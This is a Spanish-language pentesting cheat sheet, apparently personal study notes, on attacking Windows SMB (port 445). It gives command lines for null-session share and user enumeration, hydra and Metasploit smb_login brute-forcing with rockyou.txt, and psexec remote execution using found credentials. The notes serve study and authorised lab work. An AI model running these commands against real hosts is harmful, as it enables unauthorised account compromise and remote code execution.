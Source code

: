 
El protocolo SMB del puerto 445 es de Windows y sirve para compartir recursos compartidos por la red.
Para enumerar este protocolo podemos usar las siguientes herramientas:
## ENUMERAR SMB
### RECURSOS COMPARTIDOS
- Enumerar recursos compartidos con una NullSesion (sin necesidad de credenciales) con [[SMBCLIENT]]
	`smbclient -L 192.168.1.17 -N`

- También podemos enumerar con [[ENUM4LINUX]]
	`enum4linux -a <IP_Victima>`

- También con [[SMBMAP]]
	`smbmap -H <IP_Victima>`

- También podemos usar [[CRACKMAPEXEC-NETEXEC]]
	`netexec smb <IP_Victima> -u '' -p '' --shares`

##### ACCEDER AL RECURSO COMPARTIDO
- Cuando encontramos un recurso con el que tengamos permisos, podemos acceder al recurso remoto con [[SMBCLIENT]]
	`smbclient //<IP_Victima>/<recurso> -N`


### USUARIOS
- Podemos usar  [[CRACKMAPEXEC-NETEXEC]]
	`netexec smb <IP_Victima> -u '' -p '' --users`


### FUERZA BRUTA
- Podemos probar primero a validar credenciales si las hemos obtenido usandon [[CRACKMAPEXEC-NETEXEC]]
	`netexec smb <IP_Victima> -u <User> -p <Wordlist/creds> `

- También podemos usar las credenciales encontradas con [[SMBMAP]]
	`smbmap -H <IP_VIctima> -u <User> -p <Password>`

- En caso de que sepamos un usuario pero no tengamos indicios de ninguna contraseña podemos usar ataques de fuerza bruta con [[HYDRA]] hacia el protocolo SMB
	`hydra -l <User> -P /usr/share/wordlists/rockyou.txt smb://<IP_Victima>`

### ACCESO A RECURSOS
- Una vez tenemos usuario y contraseña para iniciar sesión y listar los contenidos compartidos a nivel de red usaremos [[00. Apuntes/01. Herramientas/SMBCLIENT|SMBCLIENT]]
	`smbclient -L //<IP_Victima> -U <User>`

*PARA TRAERNOS LOS RECURSOS PODEMOS USAR `get` O SI HAY MUCHOS RECURSOS `prompt` y luego `mget *`  ****









### [[00. Apuntes/01. Herramientas/SMBMAP|SMBMAP]]
Nos sirve para saber sobre que recursos compartidos en la red tenemos permisos y en cuales no tenemos
`smbmap -H 192.168.1.17 -u 'mario' -p '123123'`

Si encontramos algún recurso compartido sobre el que podamos actuar usaremos [[00. Apuntes/01. Herramientas/SMBCLIENT|SMBCLIENT]] lo cual nos otorgara una consola en la cual podremos iniciar sesión y podremos ejecutar comandos dentro de recurso compartido
`smbclient -U 'mario' //192.168.1.17/<Nombre_recurso_compartido>`

*Si queremos visualizar archivos .txt usaremos el comando type*
### [[METASPLOIT]]

Para hacer fuerza bruta al protocolo SMB usaremos 
`use auxiliary/scanner/smb/smb_login`

Para ver las opciones de configuración usaremos
`show options`

Para configurar los parámetros usaremos
`set <Opciones> <Parametro>` 
- RPORT `445`
- RHOST `IPVictima`
- VERBOSE `false`
- SMBUSER `nombre usuario si lo conocemos`
- SMBPASS `contraseña si la conocemos`
- PASS_FILE `/usr/share/wordlists/rockyou.txt`  Diccionario en caso de no saber contraseñas

Una vez este configurado usaremos `run` para ejecutarlo
Y obtendremos la contraseña por fuerza bruta

Cuando conseguimos la contraseña del usuario intentaremos iniciar sesión con el modulo
`use exploit/windows/smb/psexec`

Una vez cargado el exploit vemos las opciones 
`show options`

Configuramos los parámetros que son necesarios
`set <Opciones> <Parametro>` 
- RPORT `445`
- RHOST `IPVictima`
- SMBUser `nombre usuario si lo conocemos`
- SMBPass `contraseña si la conocemos`

Una vez tengamos todo configurado usaremos el comando `run` para ejecutar el exploit



